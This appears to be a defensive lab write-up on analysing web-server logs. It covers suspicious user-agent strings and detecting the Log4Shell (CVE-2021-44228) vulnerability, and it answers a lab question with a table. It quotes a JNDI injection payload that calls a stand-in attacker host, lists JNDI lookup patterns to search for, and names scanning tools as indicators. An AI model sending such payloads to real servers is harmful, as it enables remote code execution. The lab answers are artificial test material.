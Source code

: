 ## User-Agent Analysis (in a nutshell)

**Purpose:** Identify bots, scanners, or spoofed clients.

### Key Indicators:

* **Outdated Versions**: User-Agents showing old Chrome, Firefox, etc., may be spoofed or vulnerable clients.
* **Tool Signatures**: User-Agents like `sqlmap`, `Nikto`, `curl`, or `python-requests` reveal automated tools.
* **Frequency & Volume**: Hundreds of requests per second with the same UA is not normal human behavior.
* **Inconsistencies**: Linux UAs with `Edge` or Safari UAs with `Windows` — often faked.

**Use Case**: Detect brute force attacks, scrapers, scanners, or malware beaconing.

## Log4j (Log4Shell) Analysis (in a nutshell)

**Vulnerability**: CVE-2021-44228 — allows **remote code execution (RCE)** by injecting JNDI payloads into loggable fields.

### How It’s Exploited:

* Attacker sends payload like:
  `${jndi:ldap://attacker.com/a}`
* Injected in HTTP headers: `User-Agent`, `Referer`, `X-Api-Version`, etc.
* If the vulnerable server logs the input without sanitization → it performs the malicious lookup.

### What to Look For:

* **Suspicious JNDI strings** in logs or packets: `${jndi:ldap://...}`, `${jndi:rmi://...}`
* **Strange HTTP headers** containing these payloads.
* **Outbound traffic** from internal systems to attacker-controlled IPs/domains (LDAP/RMI).

## Answer the questions below

### Q1. Investigate the user agents. What is the number of anomalous  "user-agent" types?

- ![Screenshot 2025-05-07 211629](https://github.com/user-attachments/assets/bb08754c-64c4-435d-b3ee-217802014b7e)
- all available user-agents have been inspected, and the result:

| User-Agent String                                                               | Verdict       | Reason                   |
| ------------------------------------------------------------------------------- | ------------- | ------------------------ |
| Mozilla/5.0 (Windows NT 6.4) Chrome/8.0                                         | ⚠️ Suspicious | Outdated + fake OS       |
| Mozilla/5.0 Firefox/68.0 (Linux)                                                | ✅ Legitimate  | Common browser           |
| Google Chrome/83.0.4103.116 Windows                                             | ⚠️ Suspicious | Incomplete format        |
| Mozilla/5.0 (compatible; Nmap Scripting Engine)                                 | ❌ Malicious   | Port scanning tool       |
| Wfuzz/2.4                                                                       | ❌ Malicious   | Web fuzzing tool         |
| sqlmap/1.4#stable                                                               | ❌ Malicious   | SQL injection automation |
| \${jndi\:ldap\://...}                                                           | ❌ Exploit     | Log4j RCE attack         |
| Mozilla/5.0 Chrome/52.0 (Linux)                                                 | ✅ Legitimate  | Real browser             |
| Firefox/100.0 (Ubuntu)                                                          | ✅ Legitimate  | Normal traffic           |
| Mozilla/5.0 (X11; Ubuntu; Linux x86\_64; rv:100.0) Gecko/20100101 Firefox/100.0 | ✅ Legitimate  | Standard browser string  |
| Microsoft-WNS/10.0                                                              | ✅ Legitimate  | Windows system service   |
